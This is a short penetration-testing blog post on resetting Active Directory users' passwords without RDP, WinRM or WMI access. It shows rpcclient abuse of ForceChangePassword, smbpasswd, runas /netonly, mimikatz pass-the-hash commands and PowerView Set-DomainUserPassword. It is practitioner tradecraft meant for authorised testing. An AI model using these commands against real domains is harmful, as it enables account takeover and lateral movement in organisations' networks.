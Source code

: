 [back](/)

![Image](/img/hat.jpg)

### Your password has expired

During penetration testing Active Directory you often encounter the need to change the password for domain users. How to do this if you do not have direct access to control? for example by winrm, rdp or wmi.

Here are some useful examples that I've collected as a result of my work:

Example 1: you have a domain user whose password has expired (or a temporary password has been set), in which case you will not be able to connect under the current user due to NLA (Network Level Authentication). By using the NetApi32 function you can easily change the password without a direct connection, in this article you will find the script: https://hinchley.net/articles/changing-your-expired-active-directory-password-via-powershell/

Example 2: you have a domain user with the "ForceChangePassword" attribute, in which case you do not need to know the current user's password and you can use the rpcclient utility as follows:

```
setuserinfo2 yourusername 23 'yourpassword'
```

![Image](/img/domain-user-password/1.png)
![Image](/img/domain-user-password/2.png)
![Image](/img/domain-user-password/3.png)

Example 3: you have a domain user with an expired password and access to the smb service, then you can change the password using smbpasswd like this:

```
smbpasswd -r HOST -U yourusername
```

Also, if you have an active account in the domain, you can run commands from the cmd/powershell console:

```
runas / netonly /U:yourusername@yourdomain powershell
```

this way you will open a session as a domain user

![Image](/img/domain-user-password/5.png)

or using mimikatz having previously generated the NTLM hash:

```
echo -n "password" | iconv -t UTF-16LE | openssl md4

privilege :: debug

token :: elevate

pth /user:yourusername /domain:yourdomain / ntlm: NTLM /run:"powershell.exe"
```

![Image](/img/domain-user-password/4.png)

Then, in an open session use PowerView.ps1 (if you need to change the password using the previous one)

```
$ SecPassword = ConvertTo-SecureString 'yourpassword' -AsPlainText -Force

$ Cred = New-Object System.Management.Automation.PSCredential ('yourdomain\yourusername', $SecPassword)

$ UserPassword = ConvertTo-SecureString 'yourpassword' -AsPlainText -Force

Set-DomainUserPassword -Identity yourusername -AccountPassword $UserPassword -Credential $Cred
```

or (if you need to change the password without knowing the previous one, if the ForceChangePassword attribute is present)

```
$pw = Convertto-securestring 'yourpassword' -asplaintext -force

Set-DomainUserPassword -Domain yourdomain -Identity 'CN=yourusername,CN=Users,DC=yourdomain,DC=yourdomain' -accountpassword $pw
```

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)



